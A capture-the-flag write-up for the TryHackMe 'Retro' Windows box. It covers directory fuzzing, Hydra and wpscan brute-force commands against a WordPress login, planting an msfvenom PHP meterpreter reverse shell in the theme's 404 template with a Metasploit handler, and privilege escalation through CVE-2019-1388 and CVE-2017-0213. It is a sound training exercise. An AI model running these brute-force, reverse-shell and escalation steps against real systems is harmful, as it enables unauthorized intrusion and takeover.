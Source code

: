 **Note: I had significant issues working through this box, as the connection would frequently be dropped. I'm not sure if this is because I was using Kali through VMware. I ended up switching to the built-in Kali box on TryHackMe, which seemed to help.**

A quick nmap scan reveals that ports 80 and 3389 are open.

<center>

![89a228305530310cf47a347e88c772d6.png](/Retro/_resources/89a228305530310cf47a347e88c772d6-1.png)

</center>

Investigating the web server reveals nothing immediate. We search for directories using FFUF.

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.18.117/FUZZ -c -t 100 -v
```

A brief explanation of the flags/switches used:
- `-w` specifies the path to the wordlist.
- `-u` specifics the URL, where `FUZZ` indicates the place we should fuzz.
- `-t` specifies the number of threads to use. The default is 40.
- `-v` gives verbose output.
- `-c` makes the output colourful.

Eventually, we find the `/retro` directory. Navigating to this page leads us to a retro gaming blog. We immediately find a username and a link to a login form.

<center>

![255ae2347532f8812a96a306e85abd34.png](/Retro/_resources/255ae2347532f8812a96a306e85abd34-1.png)

![4fabd57edbd6ee6aa7dc61e507b6ad34.png](/Retro/_resources/4fabd57edbd6ee6aa7dc61e507b6ad34-1.png)

![5c85610d77a5eb7ee447edf631030b53.png](/Retro/_resources/5c85610d77a5eb7ee447edf631030b53-1.png)

</center>

We also find a blog post revealing some potentially useful information.

<center>

![93d50d680dfdfbd493a3f64db5ffc33e.png](/Retro/_resources/93d50d680dfdfbd493a3f64db5ffc33e-1.png)

</center>

At bit of Googling tells us that the name of the avatar that Wade keeps mistyping is referring to is `parzival`.  This turns out to be the password, we we use to log in to Wade's WordPress account.

<center>

![9907cd4592502321e25444748f8c1952.png](/Retro/_resources/9907cd4592502321e25444748f8c1952-1.png)

</center>

If we didn't have access to the information given away by Wade, we would have to use Hydra to brute force the login. We already have a possible username, so let's submit the login request to Burp to capture the body of the POST request. Our Hydra command looks like:

```bash
hydra -l Wade -P /usr/share/wordlists/rockyou.txt 10.10.18.117 http-post-form "/retro/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v
```

(At this point, it seems that my machine died. Terminating and trying a new one.)

Hydra doesn't seem to be working here, as the connection seems to time out. Let's try wpscan.

`wpscan --url http://10.10.127.19/retro/wp-login.php -U Wade -P /usr/share/wordlists/rockyou.txt
`

This also doesn't seem to work. Luckily, we already have the password!

<br>

# Exploitation

Now that we have access to Wade's Wordpress account, let's try and use the WordPress theme editor to edit the 404 Template and upload a reverse shell.

<center>

![5683c9ad5042de27f889314759a5ad02.png](/Retro/_resources/5683c9ad5042de27f889314759a5ad02-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. Let's use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to any invalid url on the webpage. The reverse shell tries to launch, but we encounter an error.

<center>

![d93a8e9449266c751dabafddae677f8d.png](/Retro/_resources/d93a8e9449266c751dabafddae677f8d-1.png)

![6ae90c35a0451cc58796d62cda3930bc.png](/Retro/_resources/6ae90c35a0451cc58796d62cda3930bc-1.png)

</center>

Some Googling tells us that we're not the first to encounter this error. Thankfully, the explanation is simple.

<center>

![99aeceb1a7c252ee0fa0338c6361e335.png](/Retro/_resources/99aeceb1a7c252ee0fa0338c6361e335-1.png)

</center>

We could also try using a [php reverse shell for Windows machines](https://github.com/Dhayalanb/windows-php-reverse-shell), but this didn't work for me either.

Let's instead try using a php reverse shell payload generated by msfvenom.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw
```

Now copy and paste the raw output into the 404 template and update the file.

<center>

![7ca759846f47cf684397cfa3868ea91d.png](/Retro/_resources/7ca759846f47cf684397cfa3868ea91d-1.png)

</center>

Before proceeding, we set up a handler with Metasploit as follows:
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload payload/php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.6.30.43
LHOST => 10.6.30.43
msf6 exploit(multi/handler) > set LPORT 9999
LPORT => 9999
msf6 exploit(multi/handler) > run
```

Now send the reverse shell by triggering the 404. Meterpreter catches the reverse shell, and we have an initial foothold.

<center>

![011e8b21d3b0f57071380f0fcbb53c55.png](/Retro/_resources/011e8b21d3b0f57071380f0fcbb53c55-1.png)

</center>

At this point, the Meterpreter shell did not do much for me; basic commands like `cd` would often fail. This held true even after switching to the Kali instance on THM.

Luckily, there is another method for gaining initial access into the system. Recall that port 3389 was also open, so we may be albe to RDP into the Windows machine. Using `xfreerdp /u:wade /v:10.10.100.184` and inputting Wade's password get's us in. The `user.txt` flag is on the desktop.

<center>

![b5bd1fb1040d70714f3896ff0e8fdb32.png](/Retro/_resources/b5bd1fb1040d70714f3896ff0e8fdb32-1.png)

</center>

<br>

# Post-exploitation

(Note: I had a lot of issues reliably connecting to the Windows machine; this made RDPing a lot more painful that it should have been, and I had to reset the box a few times. I'm not sure if this is a me-problem or a THM-problem.)

Now that we have initial access, let's see if we can gain Administrator access. Looking around a bit, we see that the page to [CVE-2019-1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388) has been bookmarked in Chrome. This is a Windows Certificate Dialog Elevation of Privilege Vulnerability. Information on how to exploit this vulnerability can be found [here](https://justinsaechao23.medium.com/cve-2019-1388-windows-certificate-dialog-elevation-of-privilege-4d247df5b4d7). A brief summary is also given [here](https://github.com/nobodyatall648/CVE-2019-1388).

To start, we download an executable from [Packet Storm](https://packetstormsecurity.com/files/14437/hhupd.exe.html). Note that this file is also found in the Windows machine's recycling bin.

<center>

![0837d857d7a2c05ebf8c90db2ffceb19.png](/Retro/_resources/0837d857d7a2c05ebf8c90db2ffceb19-1.png)

</center>

We need to transfer this file to the target system. Let's set up a web server on our machine with `python -m http.server`.

<center>

![97fb80da01626337a3300a2937f90c8f.png](/Retro/_resources/97fb80da01626337a3300a2937f90c8f-1.png)

Now run the .exe file as Administrator.

![f956e29aca544a77575e2620eaadcaad.png](/Retro/_resources/f956e29aca544a77575e2620eaadcaad-1.png)

![374876b3445d9626281cee1dbf695611.png](/Retro/_resources/374876b3445d9626281cee1dbf695611-1.png)

</center>

Here is where I ran into a problem -- the "Issued By" URL needs a default app or browser in order to open. Even after setting a default browser and running through the above steps again, I am not given an option to open the URL. As you can see, the "OK" button remains greyed out:

<center>

![f24307e975a46e04b5cdc04866457dba.png](/Retro/_resources/f24307e975a46e04b5cdc04866457dba-1.png)

</center>

At this point, I knew what I had to do but there doesn't seem to be a way to proceed. This issue has been mentioned by many users on the TryHackMe Discord, but I wasn't able to find a solution. The intended path is the following: After opening the "Issued By" URL, we wait for the site to fully load and open a prompt to save the webpage using "Save As". Within this file explorer, we type `C:\WINDOWS\system32\cmd.exe` into the file name bar. This will open a command prompt with root privileges, which we can then use to find the last flag.

Since we're stuck (again), we'll try one last method to get root. Specifically, we're going to use a kernel exploit. Opening the command prompt and using `systeminfo` gives us some information about the Windows build and OS.

<center>

![66a6c5d935e4ede2a845203c46db7104.png](/Retro/_resources/66a6c5d935e4ede2a845203c46db7104-1.png)

</center>

Some [research](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---kernel-exploitation) reveals that our build of Windows is affected by [CVE-2017-0213](https://nvd.nist.gov/vuln/detail/CVE-2017-0213), a vulnerability which will allow us to run a kernel exploit and elevate our privileges. A bit of Googling reveals an [exploit](https://github.com/eonrickity/CVE-2017-0213) that we can use. We can confirm that our Windows build is on the list of affected products.

<center>

![95c14046e1fc85b4f4e2964bbc4711d0.png](/Retro/_resources/95c14046e1fc85b4f4e2964bbc4711d0-1.png)

</center>

We download the x64 executable to our local machine, host a web server, and download the file on the target. Executing the file gives us a cmd prompt with root access.

<center>

![9aaeee6dfb96e542ac51e35f643d9bae.png](/Retro/_resources/9aaeee6dfb96e542ac51e35f643d9bae-1.png)

</center>

Navigating to the Administrator's desktop, we finally find the root flag.

<center>

![bde4be03ccfeda0354de697ed8934d6c.png](/Retro/_resources/bde4be03ccfeda0354de697ed8934d6c-1.png)

</center>